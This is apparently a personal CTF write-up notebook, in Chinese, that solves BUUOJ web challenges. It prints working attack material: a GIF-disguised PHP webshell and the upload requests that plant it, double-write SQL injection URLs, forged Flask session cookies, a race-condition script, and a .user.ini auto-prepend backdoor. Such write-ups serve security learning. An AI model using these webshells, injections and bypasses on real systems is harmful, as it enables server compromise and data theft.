}
$a = new Name();
#进行url编码，防止%00对应的不可打印字符在复制时丢失
echo urlencode(serialize($a));
#未编码的情况
//O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}
//使用时将URL编码的结果中Name后面的2换成3或其他值
?>
```

最终访问`http://d9739a2f-3ef6-4370-b6f5-894f2a13612a.node3.buuoj.cn/index.php?select=O%3A4%3A%22Name%22%3A3%3A{s%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bs%3A3%3A%22100%22%3B}`即可得到flag



### [极客大挑战 2019]Upload


看样子是要进行文件上传。看了wp知道是上传`phtml`的后缀名加js调用php木马绕过检测`<?`的waf

定义`js-php.jpg`

```
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```

burp中修改一下文件名为`js-php.phtml`

```
POST /upload_file.php HTTP/1.1
Host: f1126799-e0cf-4992-985e-423321cc2320.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------260710609411000293132656913767
Content-Length: 403
Origin: http://f1126799-e0cf-4992-985e-423321cc2320.node3.buuoj.cn
Connection: close
Referer: http://f1126799-e0cf-4992-985e-423321cc2320.node3.buuoj.cn/
Upgrade-Insecure-Requests: 1

-----------------------------260710609411000293132656913767
Content-Disposition: form-data; name="file"; filename="js-php.phtml"
Content-Type: image/jpeg

GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
-----------------------------260710609411000293132656913767
Content-Disposition: form-data; name="submit"

提交
-----------------------------260710609411000293132656913767--

```



经过测试发现有`upload`目录，得出后门路径位置`http://f1126799-e0cf-4992-985e-423321cc2320.node3.buuoj.cn/upload/js-php.phtml`

蚁剑连接成功后直接看`/flag`得到flag



#### 总结(js标签调用php代码；能解析为php的所有后缀名)

本地测试了下，貌似js标签调用php不需要些什么`php.ini`中的配置？目前看来好像直接在我的phpstd上可以直接这么js标签调用php语言



能解析为php代码的后缀名:

1. php
2. phtml
3. pht
4. php3
5. php4
6. php5
7. phps

涉及文件解析的配置文件:

1. .htaccess(可尝试上传)
2. .user.ini(可尝试上传)
3. apache2.conf
4. httpd.conf

# 20210508

### [极客大挑战 2019]BabySQL

打开网站看到这么些话：

```
自从前几次网站被日，我对我的网站做了严格的过滤，你们这些黑客死心吧！！！
```



应该是SQL注入的题目

输入账号密码后，确定是GET型传参

`http://5a3ea452-ba95-46d5-9f22-394d0e26a5c2.node3.buuoj.cn/check.php?username=123123&password=213`

进行sql注入

`?username=admin&password=pwd %27 union select 1 %23`

`?username=admin&password=pwd ' union select 1 %23`

`http://5a3ea452-ba95-46d5-9f22-394d0e26a5c2.node3.buuoj.cn/check.php?username=admin%27%20order%20by%204%23&password=pwd%27%20order%20by%204%23`


通过报错可以发现他会过滤一些字段导致sql语句中语法存在问题

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'der 4#' and password='pwd' der 4#'' at line 1
```

推测是replace过滤，进行双写操作

`http://5a3ea452-ba95-46d5-9f22-394d0e26a5c2.node3.buuoj.cn/check.php?username=admin&password=pwd ' ununionion seselectlect 1 %23`

但是报错

`The used SELECT statements have a different number of columns`

那么直接`union select`后面再跟多一些的列数,构造payload如下

`http://5a3ea452-ba95-46d5-9f22-394d0e26a5c2.node3.buuoj.cn/check.php?username=admin&password=pwd%20%27%20ununionion%20seselectlect%201,2,3%20%23`

回显出了数字位置


如果是MariaDB，这里测试`version`函数是否能够使用

`?username=admin&password=pwd %27 ununionion seselectlect 1,2,version() %23`

```
Hello 2！

Your password is '10.3.18-MariaDB'
```

接下来暴库名

```
http://5a3ea452-ba95-46d5-9f22-394d0e26a5c2.node3.buuoj.cn/check.php?username=admin&password=pwd%20%27%20ununionion%20seselectlect%201,2,database()%20%23
```

知道当前库名是`geek`。然后爆所有数据库的名字

?username=admin&password=pwd %27 ununionion seselectlect 1,2,group_concat(schema_name)frfromom
(infoorrmation_schema.schemata) %23　

获得所有的数据库名字

```
information_schema,mysql,performance_schema,test,ctf,geek
```

发现了`flag`的库。但是不知道flag是在当前的`geek`库，还是在`ctf`库。所以这里查询一下这两个库

查`geek`库

```
http://5a3ea452-ba95-46d5-9f22-394d0e26a5c2.node3.buuoj.cn/check.php?username=admin&password=pwd%20%27%20ununionion%20seselectlect%201,2,group_concat(table_name)frfromom(infoorrmation_schema.tables)%20whwhereere%20table_schema=%22geek%22%20%23
```

查到的表名如下：

`b4bsql`, `geekuser`

查`ctf`库

```
http://5a3ea452-ba95-46d5-9f22-394d0e26a5c2.node3.buuoj.cn/check.php?username=admin&password=pwd%20%27%20ununionion%20seselectlect%201,2,group_concat(table_name)frfromom(infoorrmation_schema.tables)%20whwhereere%20table_schema=%22ctf%22%20%23
```

查到的表名如下：

`Flag`

查Flag表中有什么：

```
?username=admin&password=pwd %27 ununionion seselectlect 1,2,
group_concat(column_name) frfromom (infoorrmation_schema.columns) whwhereere 
 table_name="Flag"%23
```

最终构造攻击的payload:

`http://5a3ea452-ba95-46d5-9f22-394d0e26a5c2.node3.buuoj.cn/check.php?username=admin&password=pwd%20%27%20ununionion%20seselectlect%201,2,group_concat(flag)frfromom(ctf.Flag)%23`

获取flag



#### 小结

`select version()`其实也可以在MYSQL中直接使用



如果是MariaDB的话，应该是还会出现`MariaDB`的字样

?? 这个题目可以练手怎么检测WAF机制，怎么进行模糊测试检查waf过滤哪些字段

### [ACTF2020 新生赛]Upload 

[参考链接](https://blog.csdn.net/qq_41628669/article/details/106059992)

这个前端也是很有意思的，一开始灯是熄灭的，但是鼠标移到上面之后，灯就亮了。推测考点是文件上传。





做了下发现好简单，上传一个`phtml`的后门，里面是js标签调用php代码的木马内容直接getshell，直接读取`/flag`就获得flag的内容了。



### [ACTF2020 新生赛]BackupFile

[参考链接](https://blog.csdn.net/SopRomeo/article/details/104570304)



```Try to find out source file!```



直接使用burp进行目录扫描





发现了`index.php.bak`,`flag.php`

下载下来`index.php.bak`

```
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}

```

这里面`==`两个等号是`弱等于`，构造payload：

`http://8c138395-4f5b-4f92-9c29-c6126e99c781.node3.buuoj.cn/index.php?key=123`

直接获得flag



#### 小结

1. 备份文件考点

```
.rar
.zip
.7z
.tar.gz
.bak
.swp
.txt
.html
```

?? 最好做一个更好的字典，把`dirsearch`的字典也融会贯通了

2. 弱类型比较

常用方法: `0e`开头的科学计数法、数字开头的字符串、md5比较特殊值`0e`开头、空数组绕过


### [HCTF 2018]admin

[参考链接](https://blog.csdn.net/weixin_44677409/article/details/100733581)

[参考链接2](https://www.cnblogs.com/chrysanthemum/p/11722351.html)

据说本题存在三种解法：

1. flask session 伪造
2. unicode欺骗
3. 条件竞争

直接在页面上看到注册、登录功能



注册一个`admin/admin`的用户，会发现提示`
The username has been registered`



那么注册一个`haha/haha`的账密的用户



注册成功

这里看到`REMEMBER ME`的字样，一下子感觉是回到了护网时期，那个`Apache Shiro`的`remember me`的漏洞

看网页源代码发现有这些说明，应该就是在说右上角的菜单，点开后会有注册、登录的功能：



登录进去后



会发现一行注释了的小字: ```<!-- you are not admin -->```



进入`change password`





在这里的网页源代码中又可以看到这些内容

```<!-- https://github.com/woadsl1234/hctf_flask/ -->```



发现是用flask写的，我们就直接去看一下路由

```
@app.route('/code')
def get_code():

@app.route('/index')
def index():

@app.route('/register', methods = ['GET', 'POST'])
def register():

@app.route('/login', methods = ['GET', 'POST'])
def login():

@app.route('/logout')
def logout():

@app.route('/change', methods = ['GET', 'POST'])
def change():

@app.route('/edit', methods = ['GET', 'POST'])
def edit():
```



存在登录、注册、改密码、退出、edit这几个功能

#### 解法零 弱口令登录

账密`admin/123`

直接就登陆进去了



#### 解法一 flask session伪造

引用WP中的

```
flask中session是存储在客户端cookie中的，也就是存储在本地。flask仅仅对数据进行了签名。众所周知的是，签名的作用是防篡改，而无法防止被读取。而flask并没有提供加密操作，所以其session的全部内容都是可以在客户端读取的，这就可能造成一些安全问题。

参考：
https://xz.aliyun.com/t/3569
https://www.leavesongs.com/PENETRATION/client-session-security.html#
```



直接把这个HTTP报文复制粘贴在这里

```
GET /index HTTP/1.1
Host: 55c2cdee-a4dd-4766-b3e2-672732e6719e.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://55c2cdee-a4dd-4766-b3e2-672732e6719e.node3.buuoj.cn/login
Connection: close
Cookie: session=.eJw9kEGLwjAUhP_K8s4eamovgocuqUXhvRJplZeLdLWapokLValG_O9bPOxx-IYZZl6wP_XN1cD81t-bCezbI8xf8PUDc9B23bLNBAXjUGqPOcccvluUS48yfXLghOyorXPaVgMJnLGoBPsqGd0x2VSg7SIOG6flOaaAEcmj4d3ak1UJSp5xwCfKbVfk2pE8BPIqQtkJ7bMn5llM8pzwrgpFuTHkeShyNVA-Mq8G9qsHhiwuSrWA9wQO1_60v_12zeV_Ako10zJ9aK-m2mYDi6WhcuPI4pQCC5JLi8G1ujzaokwTFirGYfGJa319bv6Tiq1ejT0fcqn9CMDUpoYJ3K9N_7kNphG8_wC3PWwS.YJZ2eA.NjTl3qJTmFukr24KhLZYNYsBuo4
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

得到

```
{'_fresh': True, '_id': b'f2bb1678e06f0f7c0b01f002c6960b29ef507c8ce6be9fc7606294c4ed8773447aabf649068c3205d8fe4736d4096fa20a7489ae394a6f08d04a22d0bb131794', 'csrf_token': b'048d01fd5f10caa54e63576641c39be7c909cd73', 'image': b'9VHM', 'name': 'haha', 'user_id': '10'}
```

此时如果我们要加密伪造生成自己想要的session，还需要知道SECRET_KEY, 然后我们在`config.py`中发现了`SECRET_KEY`

```
SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
```

然后在index.html页面发现只要session['name'] == 'admin'即可以得到flag



```


<h1 class="nav">Hello {{ session['name'] }}</h1>


<h1 class="nav">hctf{xxxxxxxxx}</h1>

<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>



```

现在我们希望session加密前的内容能够被修改为：

```
{'_fresh': True, '_id': b'121de14bca66edf6cc98e254ab460d68f9122c75e64747a997410a84049d9295b53192aebf5c2b93641e5c58cc1596ed3850da7a17a5f3f6415ac0743afe3dc4', 'csrf_token': b'd2495789467d55d9e38c2ffd63e9c578ee1b267a', 'image': b'BUXE', 'name': 'admin', 'user_id': '10'}
```

python3程序输入(注意，flask-session-cookie-manager程序有2和3版本，分别对应不同版本的python)

```
F:\工具包\flask_session_exp\flask-session-cookie-manager>python3 flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': True, '_id': b'121de14bca66edf6cc98e254ab460d68f9122c75e64747a997410a84049d9295b53192aebf5c2b93641e5c58cc1596ed3850da7a17a5f3f6415ac0743afe3dc4', 'csrf_token': b'd2495789467d55d9e38c2ffd63e9c578ee1b267a', 'image': b'BUXE', 'name': 'admin', 'user_id': '10'}"
```

生成了

```
.eJw9kE2LwkAMhv_KkrOHttKL4EVqS4VkqKQOMxdxtdrOh0JVtlb87zsri4ecXvI8b_KE7bFvri3Mbv29mcC2O8DsCV_fMAPkctBFPVCxMopVouXakycjuHVo6kjJMiKzsGRaL3j5QI9TknVC2T6iZJkK3kfIi1Zk1Q9lzgouU5JljOMyRZ875VWsxlUnGMNO7khiLAoyyHVKfmNxPMVYrNvAGsLE2vzZq4FkbjA4MMm9ZrJqrObwmsD-2h-3t4ttzp8TdFZGguupyGyoerDEGytkPYoCH9rrUJ2cCFoaW6c579Coqarmb1znd6fmQ6rcRq3_k_POhwB2B9-dYQL3a9O__wZxBK9f7Zxrhg.YJZ-Tw.AbBONDOtzHDmIGpRaajz2MhPveY
```

这个替换了burp中cookie的session即可得到flag



#### 解法二 Unicode欺骗

观察路由发现修改密码的时候先将name转成小写



跟进发现login和register处其实都进行了小写处理



因为python自带转小写函数lower()，所以推测strlower函数是根据这个函数写得一个新的函数

```
def strlower(username):
    username = nodeprep.prepare(username)
    return username
```

这里用的nodeprep.prepare函数，而nodeprep是从Twisted模块导入的，在requirements.txt文件中发现Twisted==10.2.0，而官网最新已经到了19.7.0(2019/9)，版本差距很大，应该会存在漏洞。

关于Unicode问题可以参考一下：`https://panda1g1.github.io/2018/11/15/HCTF%20admin/`(目前访问是404)

关于具体编码可查 https://unicode-table.com/en/search/?q=small+capital ，当然你也可以复制过后用站长工具转换成Unicode编码。

```
from twisted.words.protocols.jabber.xmpp_stringprep import nodeprep

def test(name):
    return nodeprep.prepare(name)

print u'\u1d2c\u1d30\u1d39\u1d35\u1d3A'
print test(u'\u1d2c\u1d30\u1d39\u1d35\u1d3A')
print test(test(u'\u1d2c\u1d30\u1d39\u1d35\u1d3A'))
```

然后我们发现在使用nodeprep.prepare函数转换时过程如下：

```ᴬᴰᴹᴵᴺ -> ADMIN -> admin```

假如我们注册ᴬᴰᴹᴵᴺ用户，然后在用ᴬᴰᴹᴵᴺ用户登录，因为在login函数里使用了一次nodeprep.prepare函数，因此我们登录上去看到的用户名为ADMIN，此时我们再修改密码，又调用了一次nodeprep.prepare函数将name转换为admin，然后我们就可以改掉admin的密码，最后利用admin账号登录即可拿到flag。



#### 解法二小结

利用unicode特性注册特殊的admin，然后修改密码处会修改真正的admin的密码，然后再直接登录admin即可获得flag

#### 解法三 条件竞争

在session赋值时，登录、注册都是直接进行赋值，未进行安全验证，也就可能存在以下一种可能：
我们注册一个用户test，现在有一个进程1一直重复进行登录、改密码操作，进程2一直注销，且以admin用户和进程1所改的密码进行登录，是不是有可能当进程1进行到改密码操作时，进程2恰好注销且要进行登录，此时进程1改密码需要一个session，而进程2刚好将session[‘name’]赋值为admin，然后进程1调用此session修改密码，即修改了admin的密码。

不过从理论上来讲应该是能够改掉admin的密码的，可是在实际测试并没有成功。

```
import requests
import threading

def login(s, username, password):
    data = {
        'username': username,
        'password': password,
        'submit': ''
    }
    return s.post("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/login", data=data)

def logout(s):
    return s.get("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/logout")

def change(s, newpassword):
    data = {
        'newpassword':newpassword
    }
    return s.post("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/change", data=data)

def func1(s):
    login(s, 'test', 'test')
    change(s, 'test')

def func2(s):
    logout(s)
    res = login(s, 'admin', 'test')
    if 'flag' in res.text:
        print('finish')

def main():
    for i in range(1000):
        print(i)
        s = requests.Session()
        t1 = threading.Thread(target=func1, args=(s,))
        t2 = threading.Thread(target=func2, args=(s,))
        t1.start()
        t2.start()

if __name__ == "__main__":
    main()
```

#### 总结

这个题目学习到的知识量还是很大的。主要有两个，一个是flask的漏洞学习，还有一个是python的字符串格式化的问题

首先参考本片 [先知社区:Python Web之flask session&格式化字符串漏洞](https://xz.aliyun.com/t/3569) 

第一个是flask session的问题

由于 flask 是非常轻量级的 Web框架 ，其 session 存储在客户端中（可以通过HTTP请求头Cookie字段的session获取），且仅对 session 进行了签名，缺少数据防篡改实现，这便很容易存在安全漏洞。

假设现在我们有一串 session 值为： eyJ1c2VyX2lkIjo2fQ.XA3a4A.R-ReVnWT8pkpFqM_52MabkZYIkY ，那么我们可以通过如下代码对其进行解密：

```
from itsdangerous import *
s = "eyJ1c2VyX2lkIjo2fQ.XA3a4A.R-ReVnWT8pkpFqM_52MabkZYIkY"
data,timestamp,secret = s.split('.')
# 看这里的数据的代码可以这么些
# base64_decode(data)
res = int.from_bytes(base64_decode(timestamp),byteorder='big')
print(res)
# 这里打印下时间戳
```



注意，如图，对data字段进行base64解密就可以直接看到数据。这个flask的session字段是存在泄密、放不了篡改的问题，只是有个`secret_key`的用于签名认证的东西。

P师傅的解密程序(注意啊这个是命令行传参一个flask的session数据)：

```
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```



通过上述脚本解密处 session, 我们就可以大概知道 session 中存储着哪些基本信息。然后我们可以通过其他漏洞获取用于签名认证的 secret_key, 进而伪造任意用户身份，扩大攻击效果。

以下两个文章通过一些案例说明了flask的session问题，都写得非常详细，描述了`flask的session机制`，和`客户端session问题`。

[2017-03-8 flask 源码解析：session](https://cizixs.com/2017/03/08/flask-insight-session/)

[PHITHON 客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)

接下来看[Python格式化字符串问题](https://xz.aliyun.com/t/3569),描述了四种python3进行格式化字符串输出的方法

存在安全隐患的事例代码：

```
>>> config = {'SECRET_KEY': '12345'}
>>> class User(object):
...  def __init__(self, name):
...   self.name = name
...
>>> user = User('joe')
>>> '{0.__class__.__init__.__globals__[config]}'.format(user)
"{'SECRET_KEY': '12345'}"
```

从上面的例子中，我们可以发现：如果用来格式化的字符串可以被控制，攻击者就可以通过注入特殊变量，带出敏感数据。更多漏洞分析，可以参阅：[Python 格式化字符串漏洞（Django为例）](https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html)和[这4种格式化字符串方式的更多内容](https://realpython.com/python-string-formatting/#which-string-formatting-method-should-you-use)

另一种：f-Strings

这是python3.6之后新增的一种格式化字符串方式，其功能十分强大，可以执行字符串中包含的python表达式，安全隐患可想而知。

```
>>> a , b = 5 , 10
>>> f'Five plus ten is {a + b} and not {2 * (a + b)}.'
'Five plus ten is 15 and not 30.'
>>> f'{__import__("os").system("id")}'
uid=0(root) gid=0(root) groups=0(root)
'0'
```

### [极客大挑战 2019]BuyFlag

[参考链接](https://blog.csdn.net/weixin_44348894/article/details/105333137)



进入菜单的`PAYFLAG`看到这些内容，知道flag说是要买才能获得



查看源代码才能够看到这一段被注释的代码



```
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

请求行里的`user`的值顺手改成`1`

结合页面这句话，盲猜除了`password`参数还有`money`参数





这里说我输入的`money`过长了，可以使用科学计数法来表示很大的数字，也可以使用strcmp()函数漏洞特性绕过。

可以如下图一写`1e99`表示一个很大的数字，也可以如图二写空数组绕过





#### 小结

[php strcmp函数漏洞特性](https://blog.csdn.net/cherrie007/article/details/77473817)

int strcmp ( string $str1 , string $str2 )

参数 str1第一个字符串。str2第二个字符串。如果 str1 小于 str2 返回 < 0； 如果 str1 大于 str2 返回 > 0；如果两者相等，返回 0。

这个链接详细描述了为什么空数组可以绕过strcmp函数的比较的特性

示例代码如下：

```
<?php
    $password="***************"
     if(isset($_POST['password'])){

        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";n
            exit();
        } else {
            echo "Wrong password..";
        }
?>
```

简而言之，此漏洞适用与**5.3之前版本的php**，只要我们$_POST['password']是一个数组或者一个object即可。其实php为了可以上传一个数组，会把结尾带一对中括号的变量，例如 xxx[]的name（就是$_POST中的key），当作一个名字为xxx的数组构造类似如下的request

```
POST /login HTTP/1.1
Host: xxx.com
Content-Length: 41
Accept: application/json, text/javascript
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.59 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Connection: close

password[]=admin
```

### [BJDCTF2020]Easy MD5

[参考链接](https://blog.csdn.net/qq_43622442/article/details/105662589)

这个题目对于md5、弱类型比较的知识点考察还是很经典的，知识点我基本写在本题后面的总结里面了。



因为题目是`Easy MD5`,这里可能就是考md5的万能密码登录，尝试使用`ffifdyop`这个字符串登录试试。

应该是成功了，一下子跳到这个页面了`http://ca1ee572-8e5b-4e7f-8d69-cf4ed3b96513.node3.buuoj.cn/levels91.php`



右键查看源代码，看到注释的地方：

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->

```

这里可以看到是典型的PHP弱类型比较，md5比较

这时会有两个思路绕过这段代码。

第一个思路：

一个是特殊值比较，就是这个特殊值经过md5计算后是以`0e`开头的散列值，在php的弱类型特性会被认为是科学计数法的数字。凡是`0e`开头的任何字符串，在若等于`==`(两个等号)下，都是成立的。

构造payload进行传参：

`ca1ee572-8e5b-4e7f-8d69-cf4ed3b96513.node3.buuoj.cn/levels91.php?a=QNKCDZO&b=s155964671a`

直接跳转到`http://ca1ee572-8e5b-4e7f-8d69-cf4ed3b96513.node3.buuoj.cn/levell14.php`



代码如下：

```
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

第二个思路：

直接空数组绕过即可

`ca1ee572-8e5b-4e7f-8d69-cf4ed3b96513.node3.buuoj.cn/levels91.php?a[]=1&b[]=2`

接下来再说怎么跑这里



其实这里很明显只能空数组绕过。这里构造POST变量进行传参。

先拦个包：


接下来改`GET`为`POST`,往上写post数据。不要忘记一点，就是这么直接生改get包为post包的时候，请求行要多加一个`Content-Type: application/x-www-form-urlencoded`。

生改后的HTTP协议如下,保证改后还是符合HTTP协议就行:

```
POST /levell14.php HTTP/1.1
Host: ca1ee572-8e5b-4e7f-8d69-cf4ed3b96513.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Referer: http://ca1ee572-8e5b-4e7f-8d69-cf4ed3b96513.node3.buuoj.cn/levels91.php?a[]=1&b[]=2
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

param1[]=1&param2[]=2
```

直接得到flag



#### 小结

这个题在以前经常遇到过。但是这里我还是写一下小结。

1. `ffifdyop`散列值万能密码

md5本身输出的散列值是16个字节长度的比特序列，但是为了方便复制粘贴可阅读，一般把16字节长度的比特序列写成32字节长度，每个字节是16进制字符表示的一串字符串。

在php语言中，如果`md5()`这个函数的第二个参数是`true`(默认是`false`)，那么这个函数输出的散列值是16字节长度的而不是32字节长度。

示例如下代码`test11.php`,会输出不可打印的那串散列值。

```
<?php

$var = $_GET['var'];
echo "<br>";
print_r(md5($var,true));
//print_r(md5($var));
?>
```

本地试着运行一下这段代码可以看到此时md5函数输出的并不是十六进制字符表示的32长度的，而是16字节长度不可打印的那种：



就目前的代码，直接传参`ffifdyop`，会发现其散列值刚好是个万能密码。



用python表示就是这串：

`b"'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c"`

比如在下面的sql语句中，轻而易举就实现了万能密码的功能。

select * from users where password = '`'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c`';



这就是那个特殊值进行md5实现万能密码登录的原理和场景。

2. 特殊值的散列值可以`0e`开头

```
QNKCDZO
s155964671a
s1091221200a
```

当然远不止这几个值的md5散列值(正常32长度16进制字符的那种)是`0e`开头的，但是放在php语言中，php本身弱类型的特性在进行`==`这种弱等于的比较中，`0exxxxx`会被认为是**科学计数法**。`0eXXXXX`表示`0乘以10的N次方`，那么`0`和`0`进行比较，那当然相等。

3. PHP对空数组进行md5算法相同

php如果空数组传参，那么这个数组会被认为是`NoneType`类型。比如直接传参`a[]=1&b[]=2`，a确实和b不相等，但是对他俩分别进行`md5()`运算，都是在对`None`进行运算，当然散列值比较的话是都一样的。

### [SUCTF 2019]CheckIn

[参考链接](https://blog.csdn.net/weixin_44077544/article/details/102688564)





```<? in contents!```

内容检测php标签，所以我们要使用js调用php的木马

上传`.user.ini`文件,这里要绕过MIME类型检测

内容

```
GIF89a
auto_prepend_file=test.jpg
```



```
Your dir uploads/d99081fe929b750e0557f85e6499103f
Your files :
array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" [3]=> string(8) "user.ini" } 
```

再上传图片马`test.jpg`

```
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```



```
Your dir uploads/d99081fe929b750e0557f85e6499103f
Your files :
array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" [3]=> string(8) "test.jpg" [4]=> string(8) "user.ini" } 
```



```
Your dir uploads/d99081fe929b750e0557f85e6499103f
Your files :
array(6) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) ".user.ini" [3]=> string(9) "index.php" [4]=> string(8) "test.jpg" [5]=> string(8) "user.ini" } 
```

这应该就是返回的当前目录下的各种文件名

根据回显的提示访问`http://677690e1-e916-45fd-bd34-e6a2adcf2319.node3.buuoj.cn/uploads/d99081fe929b750e0557f85e6499103f/index.php`

直接getshell



根目录下直接看到flag:`flag{99398f59-0000-4f08-a3b1-d95df5128e27}`



#### 踩坑

`.user.ini`对php而言算一个临时的配置文件。我们在里面写入代码只是为了其他php文件被访问的时候会文件包含下jpg等这种图片中的php木马。并不像`.htaccess`文件这样我们上传jpg后可以直接访问被解析为php代码的jpg文件。这里算是`.user.ini`在做题时候和`.htaccess`上传的一个区别。

#### 小结

一些常见的文件头

```
JPG ：FF D8 FF E0 00 10 4A 46 49 46
GIF(相当于文本的GIF89a)：47 49 46 38 39 61
PNG： 89 50 4E 47
```

[.user.ini](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

`.htaccess`只适用于apache，而`.user.ini`适用于所有fpm/fastcgi，不管是不管是nginx/apache/IIS。

[php.ini 配置选项列表](https://www.php.net/manual/zh/ini.list.php)

php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP_INI_SYSTEM、PHP_INI_PERDIR、PHP_INI_ALL、PHP_INI_USER。



其中就提到了，模式为PHP_INI_USER的配置项，可以在ini_set()函数中设置、注册表中设置，再就是.user.ini中设置。 这里就提到了.user.ini，那么这是个什么配置文件？那么官方文档在这里又解释了：

除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

在 .user.ini 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

这里就很清楚了，.user.ini实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

实际上，除了PHP_INI_SYSTEM以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。

而且，和php.ini不同的是，.user.ini是一个能被动态加载的ini文件。也就是说我修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。

然后我们看到php.ini中的配置项，可惜我沮丧地发现，只要稍微敏感的配置项，都是PHP_INI_SYSTEM模式的（甚至是php.ini only的），包括disable_functions、extension_dir、enable_dl等。 不过，我们可以很容易地借助.user.ini文件来构造一个“后门”。

**.user.ini**

```
auto_prepend_file=01.gif
```

这么写内容后上传一个叫`01.gif`的文件

**使用情景**

某网站限制不允许上传.php文件，你便可以上传一个.user.ini，再上传一个图片马，包含起来进行getshell。不过前提是含有.user.ini的文件夹下需要有正常的php文件，否则也不能包含了。 再比如，你只是想隐藏个后门，这个方式是最方便的。

### [ZJCTF 2019]NiZhuanSiWei

[参考链接](https://blog.csdn.net/brainw/article/details/105691435)

[参考链接2](https://www.cnblogs.com/wangtanzhi/p/12184759.html)



代码如下:

```
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

